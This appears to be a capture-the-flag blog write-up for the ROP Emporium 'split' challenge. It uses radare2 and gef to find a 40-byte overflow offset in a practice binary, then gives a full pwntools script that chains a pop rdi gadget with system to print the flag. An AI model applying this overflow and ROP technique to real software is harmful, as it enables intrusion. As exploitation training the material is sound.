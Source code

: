 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named "Split". In this i am, going to write a small ROP chain to complete this challenge. Going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named "Split". In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. In this iam going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions.The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see interesting functions:
- main()
- pwnme()
- usefulFunction()

So lets disassemble and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name pwnme() which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function directly call system with /bin/ls, and there is also usefullstring which /bin/cat flag.txt so we need to return to this function to exploit the binary successfuly. We can find all the strings in binary using rabin2

![source-01](/img/Screenshot_2020-05-15_14-55-41.png){: .align-left}



## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.Generate the unique pattern and send to the program.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


```
![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}

As expected the program segfaulted (crashed),we have a valid crash scenario here.


###### Calculating offset

Copy past the generated pattern to the program.
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```

#### Building ROP-Chain

Lets find the pieces we need to build a ROP chain.

- Offset
- string containing “/bin/cat flag.txt”, 
- Address of system
- pop rdi; ret

#### POP RDI RET

Lets find the address of pop rdi ret

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}


#### Exploitation 

Now let’s craft the payload.

Junk + pop_rdi + bin_cat + system_plt

First padding offset to the stack pointer and gadget pop rdi; ret; as the /bin/cat flag.txt this will be stored in rdi register and we will just provide the system address and its done.


Full exploit using pwntools:

```
 
#!/usr/bin/python
from pwn import *
 
def main():
    junk = "A" * 40                     # RIP Offset at 40
    cat_flag = p64(0x00601060)          # Radare2 command: izz
    system_plt = p64(0x4005e0)          # objdump -d split | grep system
    pop_rdi = p64(0x0000000000400883)   # python ROPgadget.py --binary split | grep rdi
    p = process("./split")
    payload = junk + pop_rdi + cat_flag + system_plt
   p.sendlineafter(">", payload)
   print p.recvall()
 
if __name__ == "__main__":
    main() 
    
   ```






w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium






